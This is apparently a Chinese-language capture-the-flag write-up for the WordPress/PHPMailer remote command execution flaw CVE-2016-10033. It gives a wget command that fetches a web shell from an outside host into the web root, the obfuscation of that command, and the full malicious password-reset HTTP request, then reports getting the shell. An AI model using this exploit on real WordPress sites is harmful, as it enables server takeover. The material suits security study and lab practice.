





# WordPress远程命令执行（CVE-2016-10033） by [anonymity3712](https://github.com/anonymity3712)

## 漏洞描述

WordPress 是一种使用 PHP 语言开发的博客平台，用户可以在支持 PHP 和 MySQL 数据库的服务器上架设属于自己的网站。也可以把 WordPress 当作一个内容管理系统（CMS）来使用。WordPress 使用 PHPMailer 组件向用户发送邮件。PHPMailer(版本 < 5.2.18)存在远程命令执行漏洞，攻击者只需巧妙地构造出一个恶意邮箱地址，即可写入任意文件，造成远程命令执行的危害。

## 影响版本

WordPress <= 4.6

## writeup

启动靶场



访问靶机地址http://ctf.mzxh.xyz:65079/



在找回密码处抓包 http://ctf.mzxh.xyz:65079/wp-login.php?action=lostpassword

构造payload

```
/usr/bin/wget --output-document /var/www/html/shell.php www.mzxh.xyz/tools/shell.php
```

```
> `空格` 转化为 ${substr{10}{1}{$tod_log}}

> `/` 转化为 ${substr{0}{1}{$spool_directory}}
```

转换过来就是

```
{substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}wget${substr{10}{1}{$tod_log}}--output-document${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}var${substr{0}{1}{$spool_directory}}www${substr{0}{1}{$spool_directory}}html${substr{0}{1}{$spool_directory}}shell.php${substr{10}{1}{$tod_log}}www.mzxh.xyz${substr{0}{1}{$spool_directory}}tools${substr{0}{1}{$spool_directory}}shell.php
```

构造 poc,把上面生成的payload改进poc里，点击GO发送请求包到服务器。

```
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{$payload}} null)
Connection: close
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

wp-submit=Get+New+Password&redirect_to=&user_login=admin
```

即下图所示



访问shell地址http://ctf.mzxh.xyz:65079/shell.php



获取shell


